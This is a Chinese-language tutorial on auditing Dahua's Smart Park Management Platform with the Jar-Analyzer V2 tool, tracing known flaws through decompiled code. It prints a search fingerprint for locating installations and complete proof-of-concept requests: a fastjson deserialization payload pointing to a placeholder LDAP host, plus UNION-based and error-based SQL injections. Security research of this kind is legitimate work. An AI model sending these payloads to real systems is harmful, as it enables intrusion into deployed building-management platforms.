 # 代码审计工具篇-Jar-Analyzer V2



## 为什么使用Jar-Analyzer V2

主要使用的原因有：1.电脑有点拉，我的丐版m1启动idea放个大点的oa进去就要红温了😇。2.在审计时我喜欢看一下以前的漏洞的原理，自己手动翻太麻烦了急需自动化，Jar-Analyzer V2生成数据库查询时cpu占用率只有百分之十几。



之前许少最开始的项目是jar-analyzer-cli，跑完项目之后生个一个数据库，需要自己写sql语句查询，现在的话可以直接gui用方法调用搜索或者spel或者sql语句查询，工具本身也自带了一键查询常见java漏洞的功能，并且可以一键分析Spring Controller/Mapping(虽然有的会漏掉)，此外还有call功能查看调用关系，所以Jar-Analyzer V2对于漏洞复现国产oa漏洞和挖掘0day还是十分方便的。



下面以大华举例复现一下漏洞，大华有不少fastjson漏洞

## 大华 智慧园区管理平台

## 指纹

app.name="Dahua 大华 智慧园区管理平台"



如下面这个公开的fastjson漏洞

```
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Host: Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9Cookie: yourCookieConnection: close
Content-Type: application/json
Content-Length: 189

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x","autoCommit":true}}}
```

直接拿Jar-Analyzer V2将CardSolution文件夹导入或者直接将整个项目导入，直接使用查找fastjson漏洞功能

![image-20240508113012236](Images/98b93bed7eaca1e9963c1bd1ef3d9011.png)



在查询结果找一下哪些类有deleteFtp就好了

![d5d31d61b557bfaa288cc5735b5443ca](Images/9c59ff1aefe40bc291914b5abb76b38a.png)



下面来查找一下大华存在的sql注入



```
POST /portal/services/clientServer HTTP/1.1
Host:xxx
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:cli="http://clientServer.webservice.dssc.dahua.com">
  <soapenv:Header/>
  <soapenv:Body>
  <cli:getGroupInfoListByGroupId>
    <!--type: string-->
      <arg0>-5398) UNION ALL SELECT 5336,5336,5336,5336,md5(123456)-- -</arg0>
    <!--type: long-->
    <arg1>10</arg1>
    </cli:getGroupInfoListByGroupId>
    </soapenv:Body>
  </soap:Envelope>
```

从poc中getGroupInfoListByGroupId中存在sql注入，直接方法调用查询getGroupInfoListByGroupId，然后来到serviceimpl文件中，可以看到第一个参数会传入getGroupInfoBeanListByGroupId中

![image-20240508160615452](Images/7f91f11db28600392bacc5a2625ba157.png)

```
   public String getGroupInfoListByGroupId(String groupId, Long id) {
      try {
         returnBean.setResult("true");
         List groupInfoList = this.groupInfoManagerImpl.getGroupInfoBeanListByGroupId(groupId);
      }
   }

```

继续查询getGroupInfoBeanListByGroupId

![image-20240508160759877](Images/914b51f03d2724dcb016ec35f83d9515.png)

可以看到又被传入groupInfoDaoImpl.getGroupInfoBeanListByGroupId，直接打开groupInfoDaoImpl

源码大致如下

```
   public List getGroupInfoBeanListByGroupId(String groupId) {
      String sql = "select x from x t left join  ( select  xxx) temp on xx = x  where 1=1 ";
      if (null != groupId && !StringUtil.isEmpty(groupId)) {
         sql = sql + " and  " + this.getOracleSqlIn(groupId, "t.groupid");
```

可以看到这里 sql = sql + " and  " + this.getOracleSqlIn(groupId, "t.groupid");直接拼接导致sql注入





大华的另一个getNewStaypointDetailQuery也可以这样快速定位出来

```
POST /portal/services/carQuery/getNewStaypointDetailQuery HTTP/1.1
Host:xxx
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8
Content-Length: 491

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:car="http://carQuery.webservice.dssc.dahua.com">
<soapenv:Header/>
<soapenv:Body>
<car:getNewStaypointDetailQuery>
<!--type: string-->
<searchJson>{}</searchJson>
<!--type: string-->
<pageJson>{"orderBy":"1 and 1=updatexml(1,concat(0x7e,md5(123456),0x7e),1)--"}</pageJson>
<!--type: string-->
<extend>quae divum incedo</extend>
</car:getNewStaypointDetailQuery>
</soapenv:Body>
</soapenv:Envelope>
```


